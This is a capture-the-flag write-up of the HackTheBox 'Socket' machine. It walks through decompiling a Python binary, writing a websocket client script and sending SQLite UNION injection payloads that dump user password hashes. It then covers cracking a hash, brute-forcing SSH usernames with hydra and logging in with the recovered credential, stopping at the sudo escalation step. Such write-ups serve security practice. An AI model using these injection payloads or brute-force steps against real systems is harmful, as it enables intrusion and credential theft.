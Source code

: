<h3> Socket HackTheBox </h3>

### Difficulty = Medium

### IP Address = 10.129.192.218

Nmap Scan
![image](https://user-images.githubusercontent.com/127159644/227752209-8bcc9dfd-8685-4712-aa97-27157cefbd71.png)

I added the domain to my `/etc/hosts/` file 

After checking the web server
![image](https://user-images.githubusercontent.com/127159644/227752256-e92d99e0-3e8d-4e55-a8c8-bca0c05f4ec9.png)

The only function there is that it checks converts a string to a qr code or it decodes a qr code and shows it content

THere's a given file which can be downloaded
![image](https://user-images.githubusercontent.com/127159644/227752314-2284d46b-4768-4e7a-9dd7-a0eb2ec0be61.png)

After downloading the file given which turns out to be a zip file i extracted it
![image](https://user-images.githubusercontent.com/127159644/227752448-abeca5ea-8dc0-455f-835f-38296891d3d4.png)

And its looks like a python compiled binary

So we can decompile it using uncompyle6 but before that we need to convert it to a pyc file

```
pyi-archive_viewer qreader
? X qreader
to filename? ./qreader.pyc
```

Then decompile using uncompyle6

```
uncompyle6 qreader.pyc > qreader.py
```

I encountered issues with this because it works with python3.8 and ever since i updated my linux its been misbehaving

So i used vps (thm attack box) for this
![image](https://user-images.githubusercontent.com/127159644/227753837-e8cd7d82-cd74-4b3d-bcd0-d512a8d915a6.png)

Here's the vulnerable part of the code

```
...
ws_host = 'ws://ws.qreader.htb:5789'
...
    def version(self):
        response = asyncio.run(ws_connect(ws_host + '/version', json.dumps({
            'version': VERSION })))
        data = json.loads(response)
        if 'error' not in data.keys():
            version_info = data['message']
            msg = f'''[INFO] You have version {version_info['version']} which was released on {version_info['released_date']}'''
            self.statusBar().showMessage(msg)
            return None
        error = None['error']
        self.statusBar().showMessage(error)
...

```

It calls to the web socket hosted on port 5789 and sends the value of version in json format to the /version endpoint

After meeting chatgpt for a script to connect to the ws socket it formed this

```
from websocket import *
import sys, json

ws_host = 'ws://ws.qreader.htb:5789'

VERSION = '0.0.2'

ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()
print(result)
ws.close()
```

Trying that works

```
➜  Socket python3.10 connect.py
{"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}
➜  Socket 
```

From here the best thing to try i guess is sql injection

I followed [Resource](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) and got that its sqlite injection

From there i got the user table and password table

Here's the script

```
from websocket import *
import sys, json

ws_host = 'ws://ws.qreader.htb:5789'

VERSION = '0.0.3" UNION SELECT username,password,3,4 from users-- -'

ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()
print(result)
ws.close()


VERSION = '0.0.3" UNION SELECT group_concat(answered_by),group_concat(answer),3,4 from answers-- -'

ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()
print(result)
ws.close()
```

Running that gives the password hash and a user
![image](https://user-images.githubusercontent.com/127159644/227754380-c1c77931-d900-4ee9-8dab-ac74897cfcde.png)

Using crackstation i got the password value for the hash
![image](https://user-images.githubusercontent.com/127159644/227754411-cde3b0c2-79bd-4f48-bf39-97b283f91531.png)

Now we have password how about user? 

If you notice the name `Thomas Keller` we can try get like possible usernames from it 

Using a [Script](https://github.com/PinkDraconian/CTF-bash-tools/blob/master/scripts/ctf-wordlist-names.sh), I generated possible usernames 
![image](https://user-images.githubusercontent.com/127159644/227754495-1e801d2c-c4c7-4121-8386-bf4a0d8bf54f.png)

So i then used hydra to brute force usernames for ssh
![image](https://user-images.githubusercontent.com/127159644/227754554-b3c52dd9-622a-45aa-b078-6718345c26d5.png)

Now that we have valid cred `tkeller:denjanjade122566` lets login to ssh
![image](https://user-images.githubusercontent.com/127159644/227754593-97860c89-dfb6-4891-8292-b6a2cffe8317.png)

Lets get root 

Checking `sudo -l` shows that the user can run `/usr/local/sbin/build-installer.sh` as root
![image](https://user-images.githubusercontent.com/127159644/227754602-680e977b-cf1d-48e6-8661-266483bb3923.png)

Here's the content of `/usr/local/sbin/build-installer.sh`
![image](https://user-images.githubusercontent.com/127159644/227754622-4e47312c-f517-4ad6-adaa-cb4a0ea06777.png)

